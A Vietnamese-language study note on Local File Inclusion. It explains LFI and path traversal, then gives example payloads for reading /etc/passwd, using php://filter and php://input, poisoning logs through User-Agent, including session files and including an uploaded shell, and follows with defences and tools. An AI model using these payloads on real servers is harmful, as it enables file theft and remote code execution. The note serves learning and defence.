 # LFI vul (Local File Inclusion)

## 1. Khái niệm
- **Local File Inclusion (LFI)** là một lỗ hổng bảo mật web xảy ra khi ứng dụng không kiểm tra hoặc lọc dữ liệu đầu vào một cách chặt chẽ. LFI cho phép kẻ tấn công chỉ định đường dẫn tới các file trên máy chủ, dẫn đến việc tải hoặc thực thi các file đó.

---

## 2. Nguyên Nhân
- Ứng dụng chấp nhận dữ liệu đầu vào từ người dùng mà không kiểm tra đúng cách.
- Sử dụng các hàm như `include()`, `require()`, `include_once()` hoặc `require_once()` mà không lọc đầu vào.
- Thiếu các biện pháp bảo vệ như kiểm tra whitelist hoặc mã hóa đường dẫn.

---

## 3. LFI và Path Traversal
### 3.1. Path Traversal
- **Path Traversal** là một lỗ hổng bảo mật cho phép kẻ tấn công truy cập các file không được phép trên server bằng cách thay đổi đường dẫn file. **Path Traversal** thường chỉ cho phép **đọc file mà không thực thi chúng**.

Ví dụ:
```http
http://example.com/index.php?file=../../etc/passwd
```

### 3.2. Local File Inclusion (LFI)
- **LFI** không chỉ **cho phép truy cập file** mà còn có khả năng **thực thi nội dung file**, đặc biệt khi ứng dụng sử dụng các hàm như `include()`. LFI có thể dẫn đến **Remote Code Execution (RCE)**.

- Ví dụ:
```http
http://example.com/index.php?page=../../var/log/apache2/access.log
```
- Nếu ta chèn mã độc vào log file, mã này có thể được thực thi thông qua LFI.

| Tiêu Chí                  | Path Traversal                  | Local File Inclusion (LFI)       |
|---------------------------|---------------------------------|-----------------------------------|
| Mục tiêu chính            | Đọc file                        | Đọc và có thể thực thi file       |
| Hàm liên quan             | Không yêu cầu `include()`       | Yêu cầu các hàm như `include()`  |
| Mức độ nguy hiểm          | Cao                            | Rất cao                          |
| Ví dụ payload             | `../../etc/passwd`             | `../../var/log/apache2/access.log` |

---

## 4. Cách Khai Thác

### 4.1. Khai Thác Cơ Bản
- Thay đổi giá trị tham số để tải các file nhạy cảm trên máy chủ:
```http
http://example.com/index.php?page=../../etc/passwd
```
- Payload `../../etc/passwd` sử dụng ký tự `../` để truy cập các thư mục cấp cao hơn.

### 4.2. Null Byte Injection
- Trong PHP < 5.3, ký tự null byte (`%00`) có thể bypass kiểm tra đuôi file:
```http
http://example.com/index.php?page=../../etc/passwd%00
```

### 4.3. Sử Dụng PHP Wrappers
- **Đọc file bằng `php://filter`**:
```http
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=config.php
```
- **Thực thi payload qua `php://input`**:
```http
POST /index.php?page=php://input

- Payload:
<?php system('id'); ?>
```

### 4.4. Chèn Mã Vào Log Files
- **Chi Tiết**:
  1. Kẻ tấn công gửi một yêu cầu HTTP chứa mã độc trong header (ví dụ: `User-Agent`).
  2. Mã độc được ghi vào log file của server (thường ở `/var/log/apache2/access.log`).
  3. LFI được sử dụng để đọc và thực thi log file đó.
- **Ví Dụ Payload**:
  ```http
  GET /index.php?page=../../var/log/apache2/access.log HTTP/1.1
  User-Agent: <?php system('id'); ?>
  ```
- **Giải Thích**: Nếu server log không được bảo vệ, mã độc có thể được thực thi ngay khi `include()` được gọi đến log file.

### 4.5. Khai Thác Session Files
- **Chi Tiết**:
  1. PHP lưu session của người dùng dưới dạng file tại thư mục `/var/lib/php/sessions/` (hoặc tương đương).
  2. Kẻ tấn công tạo session chứa mã độc thông qua ứng dụng web.
  3. Sử dụng LFI để đọc và thực thi file session này.
- **Ví Dụ Payload**:
  ```http
  GET /index.php?page=/var/lib/php/sessions/sess_<session_id>
  ```
- **Giải Thích**: Nếu nội dung của file session chứa mã PHP, nó sẽ được thực thi khi `include()` gọi đến.

### 4.6. Khai Thác File Upload
- **Chi Tiết**:
  1. Ứng dụng cho phép upload file mà không kiểm tra định dạng hoặc nội dung.
  2. Kẻ tấn công upload một file PHP chứa mã độc (ví dụ: shell).
  3. Sử dụng LFI để bao gồm và thực thi file đã upload.
- **Ví Dụ Payload**:
  ```http
  GET /index.php?page=uploads/shell.php
  ```
- **Giải Thích**: LFI hoạt động như một cách để thực thi file độc hại đã được tải lên.

---

## 5. Mục Tiêu Phổ Biến
- **Tệp cấu hình**:
  - `/etc/passwd`: Danh sách người dùng hệ thống.
  - `config.php`: File chứa thông tin cấu hình database.
- **Log Files**: `/var/log/apache2/access.log`, `/var/log/nginx/access.log`.
- **Session Files**: `/var/lib/php/sessions/`.

---

## 6. Tác Động
- Đọc các file nhạy cảm như mật khẩu, cấu hình server.
- Thực thi mã độc trên server (Remote Code Execution).
- Lấy thông tin để thực hiện các cuộc tấn công khác, như privilege escalation.

---

## 7. Cách Phòng Chống
- **Kiểm tra và lọc dữ liệu đầu vào**:
  - Chỉ cho phép các file trong danh sách whitelist.
  - Sử dụng hàm `basename()` để lọc đường dẫn.

- **Mã hóa và kiểm tra đầu vào**:
  - Chặn các ký tự đặc biệt như `../`, `%00`.
  - Sử dụng hàm `realpath()` để xác minh đường dẫn.

- **Giới hạn quyền truy cập file**:
  - Chỉ cung cấp quyền truy cập tối thiểu cho các file cần thiết.
  - Tắt hiển thị lỗi (disable error messages).

- **Cấu hình server**:
  - Tắt `allow_url_include` và `allow_url_fopen` trong PHP.
  - Vô hiệu hóa các PHP wrappers không cần thiết.

---

## 8. Công Cụ Hỗ Trợ
- **Burp Suite**: Để intercept và test payloads.
- **FFUF**: Brute force các đường dẫn file nhạy cảm.
- **Dirb**: Tìm kiếm các file ẩn hoặc nhạy cảm trên server.

---

## Demo
- Ở đây mình sẽ làm 1 số chall cơ bản liên quan để **Path Traversal** và **LFI**.
### Portswigger
